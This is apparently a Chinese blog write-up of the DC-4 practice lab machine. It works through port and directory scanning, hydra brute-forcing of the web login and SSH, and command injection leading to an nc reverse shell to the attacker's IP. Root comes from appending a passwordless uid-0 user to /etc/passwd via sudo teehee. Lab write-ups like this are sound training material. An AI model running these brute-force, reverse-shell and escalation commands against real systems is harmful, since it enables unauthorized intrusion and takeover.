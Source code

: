```yaml
---
title: DC4
date: 2023-09-03T15:29:52+08:00
updated: 2023-07-15T20:55:06+08:00
categories: 
- 渗透测试
- 靶机练习
---
```


```
arp-scan -l 
==> 192.168.121.147
```

访问得到一个基础的登录界面，简单浏览一下开始扫描端口和目录

```
nmap -A 192.168.121.147 -T4 -p-
```

![nmap](E:\笔记软件\笔记\渗透测试\靶机练习\DC4图库\nmap.png)

开放了ssh连接,80端口主页面

扫描目录

```
gobuster dir -u http://192.168.121.147 -w /usr/share/wordlists/dirb/big.txt
```

只能扫描到index.php和login.php，能够拿到的信息太少了，换了一个目录扫描器，稍微能得到多一点的路径了，不过最终都会被定向到index.php,手动和sqlmap测试sql无果后，打算用漏扫再扫一次

![漏扫](E:\笔记软件\笔记\渗透测试\靶机练习\DC4图库\漏扫.png)

只能扫出来几个不太重要的中低威漏洞

尝试使用byp4xx绕过访问css也失败了，最后再尝试一下爆破

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.121.147 http-post-form "/login.php:username=^USER^&password=^PASS^:S=logout" -F
```

得到了管理员账户和密码，终于进入后台![back](E:\笔记软件\笔记\渗透测试\靶机练习\DC4图库\back.png)

看一下工具逻辑，工具会把我们的命令显示在页面上，看一下是怎么传递的这个命令,bp抓包发现，该命令通过post提交表单，并将执行的结果返回到页面上，尝试反弹shell

最后是使用nc命令反弹成功了

```
nc -e /bin/bash 192.168.121.135 7777
```

![shell1](E:\笔记软件\笔记\渗透测试\靶机练习\DC4图库\shell1.png)

使用python升级交互式

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

尝试sudo -l命令，需要我们输入当前用户的密码，估计又是需要利用服务器版本漏洞进行提权，先看看服务器上有什么，在home目录下找到三个用户，jim目录下存在old-passwords.bak文件，但是不允许我们读取mybox,应该是只能当前用户读取，我们可以尝试利用jim用户登录ssh

```
hydra -l jim -P password.txt -t 10 ssh://192.168.121.147
```

![password](E:\笔记软件\笔记\渗透测试\靶机练习\DC4图库\password.png)

能够看到密码为jibril04,登录ssh,成功登录，应该是可以看到mobx里面的内容了

```
From root@dc-4 Sat Apr 06 20:20:04 2019
Return-path: <root@dc-4>
Envelope-to: jim@dc-4
Delivery-date: Sat, 06 Apr 2019 20:20:04 +1000
Received: from root by dc-4 with local (Exim 4.89)
        (envelope-from <root@dc-4>)
        id 1hCiQe-0000gc-EC
        for jim@dc-4; Sat, 06 Apr 2019 20:20:04 +1000
To: jim@dc-4
Subject: Test
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 8bit
Message-Id: <E1hCiQe-0000gc-EC@dc-4>
From: root <root@dc-4>
Date: Sat, 06 Apr 2019 20:20:04 +1000
Status: RO

This is a test.
```

是一封邮件，是root用户发给jim用户的，可能是要利用邮件服务进行提权，网上查找一下文章也没有什么收获，或许是邮件服务不能用于提权，看了下思路，要去位于/var/mail目录下寻找邮件

jim下的邮件内容

```
From charles@dc-4 Sat Apr 06 21:15:46 2019
Return-path: <charles@dc-4>
Envelope-to: jim@dc-4
Delivery-date: Sat, 06 Apr 2019 21:15:46 +1000
Received: from charles by dc-4 with local (Exim 4.89)
        (envelope-from <charles@dc-4>)
        id 1hCjIX-0000kO-Qt
        for jim@dc-4; Sat, 06 Apr 2019 21:15:45 +1000
To: jim@dc-4
Subject: Holidays
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 8bit
Message-Id: <E1hCjIX-0000kO-Qt@dc-4>
From: Charles <charles@dc-4>
Date: Sat, 06 Apr 2019 21:15:45 +1000
Status: O

Hi Jim,

I'm heading off on holidays at the end of today, so the boss asked me to give you my password just in case anything goes wrong.

Password is:  ^xHhA&hvim0y

See ya,
Charles

```

得到charles的密码  ^xHhA&hvim0y

切换用户

```
su charles
sudo -l
```

查看一下可以root用户执行的命令![su -l](E:\笔记软件\笔记\渗透测试\靶机练习\DC4图库\su -l.png)

采用teehee进行提权，上网搜索teehee提权，可以利用teehee自主创建用户

```
echo "uu2fu3o::0:0:::/bin/bash" | sudo teehee -a /etc/passwd
```

创建一个用户名为uu2fu3o的用户。并且uid为0即root权限，密码为空，可以直接登录

```
su - uu2fu3o
```

成功提权root![root](E:\笔记软件\笔记\渗透测试\靶机练习\DC4图库\root.png)

最后去寻找flag即可

![flag](E:\笔记软件\笔记\渗透测试\靶机练习\DC4图库\flag.png)

总结：提权部分相较于上几个靶机算是比较简单了，但是最开始的登录框确实比较难搞。存在很多不确定的因素，依旧是老问题，给你一个登录框你能进行什么操作，而不仅仅是一个sql一个爆破就完了；在拿到反向shell之后对于服务器信息的探测也非常重要